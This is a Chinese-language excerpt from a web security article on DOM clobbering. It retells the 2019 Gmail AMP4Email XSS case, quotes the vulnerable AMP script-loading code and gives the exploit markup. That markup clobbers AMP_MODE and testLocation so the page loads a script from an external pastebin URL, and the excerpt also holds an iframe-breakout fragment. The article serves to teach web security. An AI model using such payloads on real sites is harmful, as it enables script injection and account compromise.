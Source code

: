 ``` 
   &quot></iframe>
 "></iframe>
```
**实际案例研究：Gmail AMP4Email XSS**  
在 2019 年的时候 Gmail 有一个漏洞就是透过 DOM clobbering 来攻击的，简单来说呢，在 Gmail 裡面你可以使用部分 AMP 的功能，然后 Google 针对这个格式的 validator 很严谨，所以没有办法透过一般的方法 XSS。  
但是有人发现可以在 HTML 元素上面设置 id，又发现当他设置了一个 <a id="AMP_MODE"> 之后，console 突然出现一个载入 script 的错误，而且网址中的其中一段是 undefined。仔细去研究程式码之后，有一段程式码大概是这样的：  
``` 
var script = window.document.createElement("script");
 script.async = false;

 var loc;
 if (AMP_MODE.test && window.testLocation) {
     loc = window.testLocation
 } else {
     loc = window.location;
 }

 if (AMP_MODE.localDev) {
     loc = loc.protocol + "//" + loc.host + "/dist"
 } else {
     loc = "https://cdn.ampproject.org";
 }

 var singlePass = AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "";
 b.src = loc + "/rtv/" + AMP_MODE.rtvVersion; + "/" + singlePass + "v0/" + pluginName + ".js";

 document.head.appendChild(b);
```
如果我们能让 AMP_MODE.test 跟 AMP_MODE.localDev 都是 truthy 的话，再搭配设置 window.testLocation，就能够载入任意的 script！  
所以 exploit 会长的像这样：  
``` 
// 让 AMP_MODE.test 跟 AMP_MODE.localDev 有东西
 <a id="AMP_MODE" name="localDev"></a>
 <a id="AMP_MODE" name="test"></a>

 // 设置 testLocation.protocol
 <a id="testLocation"></a>
 <a id="testLocation" name="protocol" href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

原文:  
[浅谈 DOM Clobbering 的原理及应用](https://mp.weixin.qq.com/s/3a8tNwfbSTU8b_d12Wqn5A)
